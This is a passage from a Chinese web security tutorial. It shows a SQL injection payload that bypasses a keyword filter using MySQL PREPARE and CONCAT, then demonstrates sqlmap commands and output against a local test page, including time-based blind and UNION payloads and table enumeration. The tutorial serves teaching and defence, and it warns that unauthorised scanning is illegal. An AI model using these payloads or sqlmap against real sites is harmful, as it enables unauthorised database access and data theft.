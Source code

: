 但是，黑客其实可以利用SQL自身的PREPARE机制和SQL自带的CONCAT函数，将select等关键字拆分（命中不了上述filterSQL函数的过滤规则了），然后执行这个prepare statement！比如这样构造输入参数：

```
1;set @sqlcmd = CONCAT('sele', 'ct * from person'); prepare stmt_hack from @sqlcmd;execute stmt_hack;
```

则最终的SQL语句如下，是可以查询出所有数据的！

```
SELECT * FROM person WHERE id = 1;set @sqlcmd = CONCAT('sele', 'ct * from person'); prepare stmt_hack from @sqlcmd;execute stmt_hack;
```

所以，这种过滤SQL关键词的方法，不能很好地防范所有SQL注入问题。

### 补充教程：使用SQLMAP自动发现注入漏洞！！

上面讲的是手工发现SQL注入点，结合代码进行修复的过程。如果您想知道如何自动检测自己的网站是否可能有SQL注入漏洞，这里介绍一下SQLMAP。SQLMAP是著名的SQL注入自动探测工具，其实质是把我们上面讲的规则做了自动化，当然不只是我们讲的这些，它包含了大量的SQL注入数据库，功能非常强大。

**注意：请不要随意使用SQLMAP，在未通知目标网站管理员的情况下使用SQLMAP是违法行为！！！**

首先，需要人工访问一下目标网站，找到POST或GET获取用户提交参数的页面，这一步主要依赖经验的积累（白盒测试的话就简单了）。然后使用sqlmap探测该url是否存在注入点：
```
python sqlmap.py -u "http://localhost/sqltest.php?test1=查询&&name1=Tony" --level 5
```
结果看出，确实存在注入点，另外它把我们使用的PHP和数据库版本号都获取到了：
```
[15:15:40] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name1 (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: test1=查询&&name1=Tony' AND SLEEP(5) AND 'LWXo'='LWXo

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: test1=查询&&name1=Tony' UNION ALL SELECT CONCAT(0x71717a7871,0x4d6b7a474276646c426b51737776786762645069785077794d58707a545865706467485076535645,0x717a6a7671),NULL,NULL-- pmJX
---
[15:15:40] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.4, Apache 2.4.39
back-end DBMS: MySQL >= 5.0.12
```
然后就可以获取我有哪些张表了：
```
python sqlmap.py -u "http://localhost/sqltest.php?test1=查询&&name1=Tony" --tables
```
结果可以看到我有哪些数据库table：
```
Database: mytest
[1 table]
+----------------------------------------------------+
| person                                             |
+----------------------------------------------------+
```
好了，后面再获取表中的内容也是类似的操作步骤，我们就不一一介绍了。SQLMAP功能很强大，对于登录用户的页面，它还支持预埋一些cookie再进行SQL注入测试。
